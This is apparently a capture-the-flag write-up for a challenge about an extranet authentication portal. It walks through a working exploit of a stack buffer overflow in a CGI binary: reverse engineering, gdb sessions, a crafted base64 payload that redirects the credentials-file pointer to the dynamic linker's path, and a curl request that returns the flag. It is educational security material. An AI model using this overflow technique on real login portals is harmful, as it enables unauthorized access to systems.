


#### Challenge Description:

> PROTECTIVE PENGUIN gained access to one of their victims through the victim's extranet authentication portals and we were asked to investigate.

> Please download the Portal Code and see whether you can reproduce their means of initial access vector. We stood up a test instance of the authentication portal for you to validate against.

#### Write-Up:

This challenge had an interesting authentication bypass via a buffer overflow. Let's take a look.

We're given the code to the victim's authentication portal. By running it, logging in, and inspecting the request we can see that it sends a POST request to `portal.cgi`. The payload of the request is our username and password base64ed and in JSON format.   


`portal.cgi` is a [CGI binary](https://en.wikipedia.org/wiki/Common_Gateway_Interface) that can be run directly via the command line. All we have to do is send the POST datat to standard input and pass the correct environment variables.

```
$ echo '{"user":"dXNlcm5hbWU=","pass":"cGFzc3dvcmQ="}' | \
       REQUEST_METHOD=POST CONTENT_LENGTH=45 ./cgi-bin/portal.cgi
Content-Type: application/json

{"status": "err"}                                   
```

If we pass it a correct username and password stored in the creds.txt file, we can log in: 

```
$ echo '{"user":"YWRtaW4=","pass":"YWRtaW4="}' | \
       REQUEST_METHOD=POST CONTENT_LENGTH=38 ./cgi-bin/portal.cgi
Content-Type: application/json

{"status": "success", "flag": "(null)"}
```

Opening `portal.cgi` in a reverse engineering program (I'm using Cutter here), we can decompile it and see how it actually authenticates. In `main` it checks environment variables for `REQUEST_METHOD` and `CONTENT_LENGTH` then it reads in the correct amount of bytes from standard input:


Next it parses the json, looking for `"user"` and `"pass"`. Then it passes the base64 encoded username and password to `fcn.00401226`, the main authenticator function. If it returns `0`, then the authentication is successful and it returns the flag.



Let's take a look at this authenticator function. First it zeros out a buffer, then it [uses `__b64_pton` to decode the base64](https://www.lemoda.net/unix/base64/index.html) and copy it into the buffer. It does this twice, adding the character `:` (`0x3a`) in between the username and password.


Then it opens up the file name specified, `creds.txt`, runs through each line looking for a `:` character using `strchr`, and finally uses `strcmp` to compare the buffer created above with the line in `creds.txt`. If `strcmp` returns 0 and the line in `creds.txt` is the same as the username/password combo passed to the authenticator function, then it returns 0 and authentication succeeds.  


You can see the decompiler is getting confused at many points but it also points us in the direction of an exploit. The base64 decoder makes no checks to see if it overruns the buffer it is copying into - it gives a whopping `0x100` bytes to work with, much larger than the buffer size. We can send a very large payload and overrun the buffer.

```
$ cat bigbuff.json 
{"user":"QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBCg==","pass":"QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBCg=="}
$ wc bigbuff.json 
  1   1 526 bigbuff.json
$ cat bigbuff.json | REQUEST_METHOD=POST CONTENT_LENGTH=525 ./cgi-bin/portal.cgi
Content-Type: application/json

*** stack smashing detected ***: terminated
```

Ah but there is stack smashing detection enabled, so we cannot change the return address of the authenticator function, we can only change the contents *within* the stack. Luckily the filename that normally points to `"creds.txt"` is directly after this buffer. So if we overflow the buffer to point to a filename we already know, we can pass a correct username and password pair. Let's take a look in gdb, set the correct environment variables, and set a breakpoint right before the second call to `__b64_pton`. 


```
$ gdb -q ./cgi-bin/portal.cgi 
Reading symbols from ./cgi-bin/portal.cgi...
(No debugging symbols found in ./cgi-bin/portal.cgi)
(gdb) set environment REQUEST_METHOD=POST
(gdb) set environment CONTENT_LENGTH=525
(gdb) break *0x401307
Breakpoint 1 at 0x401307
(gdb) r < bigbuff.json 
```

The call to `fopen` takes the filename pointer from `-0x18(%rbp)`, which is initally points to `creds.txt`. After overwriting the buffer, the pointer is `0x414141...` or `AAA...` our long username and password in `bigbuff.json`.


At the top, the first call to `__b64_pton` copies the output to `%rbp - 0x220 + 0x104` or `%rbp - 0x11c`. The filename pointer is at `%rbp - 0x18` so our buffer is `0x11c - 0x18`, or 260 bytes long. So including the `:` added in between the username and password, we can construct a payload that overwrites the filename pointer but doesn't smash the stack:

```
$ python -c 'print("A"*130, end="")' > user
$ python -c 'print("B"*129+"CDEF", end="")' > pass
$ echo -n '{"user":"'$(base64 -w 0 user)'","pass":"'$(base64 -w 0 pass)'"}' \
       > test.json
$ wc -c test.json
377 test.json
$ gdb -q ./cgi-bin/portal.cgi 
Reading symbols from ./cgi-bin/portal.cgi...
(No debugging symbols found in ./cgi-bin/portal.cgi)
(gdb) set environment REQUEST_METHOD=POST
(gdb) set environment CONTENT_LENGTH=377
(gdb) break *0x401307
Breakpoint 1 at 0x401307
(gdb) r < test.json 
```



But now that we can change this finename pointer,  we have the problem of what exactly we should change it *to*. At first I thought we can change it to `index.html`, a file we know exists on the machine and has semicolons in it, and thus, according to the authentication program, `username:password` pairs.

But we are changing a filename *pointer* so we need to have the text `index.html` loaded in memory, accessable, *and* know/control the address to it. We can add `index.html` to our payload or pass it as an environment variable (it's a cgi-bin so we have some control over the environment). But there would be no way to point to it - ASLR is enabled and a 64 bit binary so the exact location of our input is unknownable.

With ASLR enabled, the only place with fixed memory addresses is in the binary itself. Looking through the binary for strings that are pathnames, we only have only one other, aside from `creds.txt`:


Aha! `/lib64/ld-linux-x86-64.so.2`, the path to the program's dynamic linker. If we change the filename point to look for credentials to that file instead, we can send it a `username:password` combination that is already in `/lib64/ld-linux-x86-64.so.2`. It is a binary file and we don't have the exact copy to inspect, but it probably isn't too different from one on another modern linux machine.

I looked in my own linker and tried a few different lines that had a `:` in it and the line `runtime linker statistics:` finally worked. Thankfullly we send our payload in base64 so we can null terminate our string while still overflowing the buffer. Finishing up:

```
$ echo -n "runtime linker statistics" > user
$ python -c 'payload = b"\x00" + b"A"*(260-27) + b"\xa8\x02\x40\x00";\
  	 open("pass", "wb").write(payload)'
$ echo -n '{"user":"'$(base64 -w 0 user)'","pass":"'$(base64 -w 0 pass)'"}' > payload.json
$ curl -d @payload.json https://authportal.challenges.adversary.zone:8880/cgi-bin/portal.cgi
{"status": "success", "flag": "CS{w3b_vPn_h4xx}"}
```